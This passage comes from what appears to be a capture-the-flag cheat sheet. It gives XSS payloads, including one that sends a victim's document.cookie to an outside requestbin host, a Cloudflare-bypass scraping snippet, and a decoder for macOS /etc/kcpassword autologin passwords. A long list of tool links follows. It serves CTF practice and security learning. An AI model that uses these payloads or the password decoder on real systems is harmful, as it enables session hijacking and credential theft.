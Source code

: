 
```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

	Typically you use this to steal cookies or other information, and you can do this with an online requestbin.

```
<img src="#" onerror="document.location='http://requestbin.fullcontact.com/168r30u1?c' + document.cookie">
```
* new usefull XSS cheat sheet : 'https://portswigger.net/web-security/cross-site-scripting/cheat-sheet'
* [CloudFlare Bypass](https://github.com/Anorov/cloudflare-scrape)

	If you need to script or automate against a page that uses the I'm Under Attack Mode from CloudFlare, or DDOS protection, you can do it like this with linked Python module.

``` python
#!/usr/bin/env python

import cfscrape

url = 'http://yashit.tech/tryharder/'

scraper = cfscrape.create_scraper()
print scraper.get(url).content
```

* [XSStrike]

	A command-line tool for automated [XSS] attacks. Seems to function like how [sqlmap] does.

* [`wpscan`][wpscan]

	* A Ruby script to scan and do reconnaissance on a [Wordpress] application.

* Mac AutoLogin Password Cracking

Sometimes, given an Mac autologin password file `/etc/kcpassword`, you can crack it with this code:

```
def kcpasswd(ciphertext):
    key = '7d895223d2bcddeaa3b91f'
    while len(key) < (len(ciphertext)*2):
        key = key + key
    key = binasciiunhexlify(key)
    result = ''
    for i in range(len(ciphertext)):
        result += chr(ord(ciphertext[i]) ^ (key[i]))
    return result
```
* XXE : XML External Entity

An XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server.
We try to display the content of the file /flag :


[steghide]: http://steghide.sourceforge.net/
[snow]: http://www.darkside.com.au/snow/
[cribdrag.py]: https://github.com/SpiderLabs/cribdrag
[cribdrag]: https://github.com/SpiderLabs/cribdrag
[pcap]: https://en.wikipedia.org/wiki/Pcap
[PCAP]: https://en.wikipedia.org/wiki/Pcap
[Wireshark]: https://www.wireshark.org/
[Network Miner]: http://www.netresec.com/?page=NetworkMiner
[PCAPNG]: https://github.com/pcapng/pcapng
[pcapng]: https://github.com/pcapng/pcapng
[pdfcrack]: http://pdfcrack.sourceforge.net/index.html
[GitDumper.sh]: https://github.com/internetwache/GitTools
[pefile]: https://github.com/erocarrera/pefile
[Python]: https://www.python.org/
[PE]: https://en.wikipedia.org/wiki/Portable_Executable
[Portable Executable]: https://en.wikipedia.org/wiki/Portable_Executable
[hipshot]: https://bitbucket.org/eliteraspberries/hipshot
[QR code]: https://en.wikipedia.org/wiki/QR_code
[QR codes]: https://en.wikipedia.org/wiki/QR_code
[QR]: https://en.wikipedia.org/wiki/QR_code
[zbarimg]: https://linux.die.net/man/1/zbarimg
[Linux]: https://en.wikipedia.org/wiki/Linux
[Ubuntu]: https://en.wikipedia.org/wiki/Ubuntu_(operating_system)
[Wine]: https://en.wikipedia.org/wiki/Wine_(software)
[Detect DTMF Tones]: http://dialabc.com/sound/detect/index.html
[dnSpy]: https://github.com/0xd4d/dnSpy
[Windows]: https://en.wikipedia.org/wiki/Microsoft_Windows
[.NET]: https://en.wikipedia.org/wiki/.NET_Framework
[Vigenere Cipher]: https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[Playfair Cipher]: https://en.wikipedia.org/wiki/Playfair_cipher
[bcompiler]: http://php.net/manual/en/book.bcompiler.php
[PHP]: https://en.wikipedia.org/wiki/PHP
[GET]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[pdfdetach]: https://www.systutorials.com/docs/linux/man/1-pdfdetach/
[sqlmap]: https://github.com/sqlmapproject/sqlmap
[hachoir-subfile]: https://pypi.python.org/pypi/hachoir-subfile/0.5.3
[wget]: https://en.wikipedia.org/wiki/Wget
[git]: https://git-scm.com/
[Cross-site scripting]: https://en.wikipedia.org/wiki/Cross-site_scripting
[XSS]: https://en.wikipedia.org/wiki/Cross-site_scripting
[HTML]: https://en.wikipedia.org/wiki/HTML
[JavaScript]: https://en.wikipedia.org/wiki/JavaScript
[PEiD]: https://www.aldeid.com/wiki/PEiD
[wpscan]: https://wpscan.org/
[Ruby]: https://www.ruby-lang.org/en/
[Wordpress]: https://en.wikipedia.org/wiki/WordPress
[dumpzilla]: http://www.dumpzilla.org/
[hexed.it]: https://hexed.it/
[Magic Numbers]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Magic Number]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Edit This Cookie]: http://www.editthiscookie.com/
[cookie]: https://en.wikipedia.org/wiki/HTTP_cookie
[cookies]: https://en.wikipedia.org/wiki/HTTP_cookie
[formatStringExploiter]: http://formatstringexploiter.readthedocs.io/en/latest/index.html
[format string vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[printf vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[Java]: https://en.wikipedia.org/wiki/Java_(programming_language)
[JAR]: https://en.wikipedia.org/wiki/JAR_(file_format)
[OpenStego]: https://www.openstego.com/
[Stegsolve.jar]: http://www.caesum.com/handbook/stego.htm
[Stegsolve]: http://www.caesum.com/handbook/stego.htm
[tcpflow]: https://github.com/simsong/tcpflow
[PcapXray]: https://github.com/Srinivas11789/PcapXray
[Atbash Cipher]: https://en.wikipedia.org/wiki/Atbash
[TestDisk]: https://www.cgsecurity.org/Download_and_donate.php/testdisk-7.1-WIP.linux26.tar.bz2
[PNG]: https://en.wikipedia.org/wiki/Portable_Network_Graphics
[jd-gui]: https://github.com/java-decompiler/jd-gui
[dex2jar]: https://github.com/pxb1988/dex2jar
[apktool]: https://ibotpeaches.github.io/Apktool/
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[remote code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[arbitrary code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[XSStrike]: https://github.com/UltimateHackers/XSStrike
[nishang]: https://github.com/samratashok/nishang
[Malboge]: https://en.wikipedia.org/wiki/Malbolge
[Piet]: https://esolangs.org/wiki/Piet
[npiet]: https://www.bertnase.de/npiet/
[LC4]: https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html
[Empire]: https://github.com/EmpireProject/Empire
[Base64]: https://en.wikipedia.org/wiki/Base64
[Base32]: https://en.wikipedia.org/wiki/Base32
[Base85]: https://en.wikipedia.org/wiki/Ascii85
[fcrackzip]: https://github.com/hyc/fcrackzip
[zsteg]: https://github.com/zed-0xff/zsteg
[jsteg]: https://github.com/lukechampine/jsteg
[jstego]: https://sourceforge.net/projects/jstego/
[StegCracker]: https://github.com/Paradoxis/StegCracker
[StegSeek]: https://github.com/RickdeJager/stegseek
[Base41]: https://github.com/sveljko/base41/blob/master/python/base41.py
[Base65535]: https://github.com/qntm/base65536
[Easy Python Decompiler]: https://github.com/aliansi/Easy-Python-Decompiler-v1.3.2
[photorec]: https://www.cgsecurity.org/wiki/PhotoRec
[smbmap]: https://github.com/ShawnDEvans/smbmap
[oletools]: https://github.com/decalage2/oletools
[impacket]: https://github.com/SecureAuthCorp/impacket
[Responder]: https://github.com/SpiderLabs/Responder
[Responder.py]: https://github.com/SpiderLabs/Responder
[International Code of Signals Maritime]: https://en.wikipedia.org/wiki/International_Code_of_Signals
[maritime flags translator]: https://www.dcode.fr/maritime-signals-code
[static-binaries]: https://github.com/andrew-d/static-binaries